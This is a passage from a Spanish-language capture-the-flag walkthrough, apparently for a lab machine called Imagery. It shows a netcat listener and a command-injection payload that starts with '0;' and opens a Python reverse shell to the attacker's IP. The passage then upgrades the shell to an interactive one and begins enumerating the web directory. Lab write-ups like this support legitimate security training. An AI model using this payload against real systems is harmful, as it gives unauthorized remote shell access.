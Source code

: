 Vamos a mandarnos una **Reverse Shell**.

Abre un listener con **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
```

Usa la siguiente **Reverse Shell**:
```bash
"0; python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"Tu_IP\",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"bash\")'"
```
Y envíala.

Observa la **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.11.88] 35258
web@Imagery:~/web$ whoami
whoami
web
```

Ya solo obtengamos una sesión interactiva:
```bash
# Paso 1:
script /dev/null -c bash

# Paso 2:
CTRL + Z

# Paso 3:
stty raw -echo; fg

# Paso 4:
reset -> xterm

# Paso 5:
export TERM=xterm && export SHELL=bash && stty rows 51 columns 189
```


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="AES">Enumeración de la Máquina Víctima y Aplicando Fuerza Bruta a Archivo AES con Script de Python</h2>

Al ganar acceso, estamos dentro del directorio web donde está desplegado el servidor de la página:
```bash
web@Imagery:~/web$ pwd
/home/web/web
web@Imagery:~/web$ ls
api_admin.py  api_edit.py    api_misc.py    app.py  config.py  env          static       templates  utils.py
api_auth.py   api_manage.py  api_upload.py  bot     db.json    __pycache__  system_logs  uploads
```

